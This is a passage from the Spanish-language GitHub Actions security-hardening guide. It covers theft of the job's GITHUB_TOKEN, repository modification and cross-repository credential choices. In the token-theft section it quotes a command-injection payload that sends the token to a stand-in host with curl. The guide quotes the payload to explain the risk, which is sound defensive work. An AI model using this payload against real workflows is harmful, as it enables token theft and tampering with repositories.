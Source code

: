 ### Robo del elemento `GITHUB_TOKEN` del trabajo

Es posible que un atacante robe el elemento `GITHUB_TOKEN` del trabajo. El ejecutor de {% data variables.product.prodname_actions %} recibe automáticamente un elemento `GITHUB_TOKEN` generado con permisos que se limitan únicamente al repositorio que contiene el flujo de trabajo y el token expira una vez que se haya completado el trabajo. Una vez que se venza, el token ya no será útil para un atacante. Para evitar esta limitación, pueden automatizar el ataque y realizarlo en fracciones de segundo llamando a un servidor controlado por el atacante con el token, por ejemplo: `a"; set +e; curl http://example.lab?token=$GITHUB_TOKEN;#`.

### Modificar el contenido de un repositorio

El servidor del atacante puede usar la API {% ifversion fpt or ghec %}{% data variables.product.prodname_dotcom %}{% else %}{% data variables.product.product_name %}{% endif %} para [modificar el contenido del repositorio](/actions/reference/authentication-in-a-workflow#permissions-for-the-github_token), incluidas las versiones, si los permisos asignados de`GITHUB_TOKEN` [no están restringidos](/actions/reference/authentication-in-a-workflow#modifying-the-permissions-for-the-github_token).

## Considerar acceso entre repositorios

{% data variables.product.prodname_actions %} tiene el alcance intencional de un solo repositorio a la vez. `GITHUB_TOKEN` concede el mismo nivel de acceso que el de un usuario con acceso de escritura, ya que cualquier usuario con este tipo de acceso puede acceder a este token creando o modificando un archivo de flujo de trabajo, lo que eleva los permisos de `GITHUB_TOKEN` en caso de ser necesario. Los usuarios tienen permisos específicos para cada repositorio, por lo que permitir que `GITHUB_TOKEN` para un repositorio otorgue acceso a otro afectaría al modelo de permisos de {% data variables.product.prodname_dotcom %} si no se implementa con cuidado. De forma similar, se debe tener cuidado al agregar tokens de autenticación de {% data variables.product.prodname_dotcom %} a un flujo de trabajo, ya que esto también puede afectar el modelo de permisos de {% data variables.product.prodname_dotcom %} al otorgar inadvertidamente un acceso amplio a los colaboradores.

Tenemos [un plan en la hoja de ruta de {% data variables.product.prodname_dotcom %}](https://github.com/github/roadmap/issues/74) para admitir un flujo que permita el acceso entre repositorios dentro de {% data variables.product.product_name %}, pero aún no es una característica compatible. Actualmente, la única forma de realizar interacciones privilegiadas entre repositorios es colocar un token de autenticación de {% data variables.product.prodname_dotcom %} o llave SSH como un secreto dentro del flujo de trabajo. Ya que muchos tipos de tokens de autenticación no permiten el acceso granular a recursos específicos, existe un riesgo significativo en el utilizar el tipo incorrecto de token, ya que puede otorgr un acceso mucho más amplio que lo que se espera.

Esta lista describe los acercamientos recomendatos para acceder alos datos de un repositorio dentro de un flujo de trabjajo, en orden descendente de preferencia:

1. **`GITHUB_TOKEN`**
    -  Este token tiene un ámbito intencional para el repositorio único que invocó el flujo de trabajo y puede tener el mismo nivel de acceso que el de un usuario con acceso de escritura en el repositorio. El token se crea antes de que inicie cada job y caduca cuando dicho job finaliza. Para más información, vea "[Autenticación con GITHUB_TOKEN](/actions/configuring-and-managing-workflows/authenticating-with-the-github_token)".
    - `GITHUB_TOKEN` se debe usar siempre que sea posible.
2. **Clave de implementación del repositorio**
    - Las llaves de despliegue son uno de los únicos tipos de credenciales que otorgan acceso de lectura o escritura en un solo repositorio, y pueden utilizarse para interactuar con otro repositorio dentro de un flujo de trabajo. Para obtener más información, vea "[Administración de claves de implementación](/developers/overview/managing-deploy-keys#deploy-keys)".
    - Nota que las llaves de despliegue solo pueden clonarse y subirse al repositorio utilizando Git, y no pueden utilizarse para interactuar con las API de REST o de GraphQL, así que puede no sean adecuadas para tus necesidades.
3. **Tokens de {% data variables.product.prodname_github_app %}**
    - Las {% data variables.product.prodname_github_apps %} pueden instalarse en los repositorios seleccionados, e incluso tienen permisos granulares en los recursos dentro de ellos. Puedes crear una {% data variables.product.prodname_github_app %} interna a tu organización, instalarla en los repositorios a los que necesites tener acceso dentro de tu flujo de trabajo, y autenticarte como la instalación dentro del flujo de trabajo para acceder a esos repositorios.
4. **Tokens de acceso personal**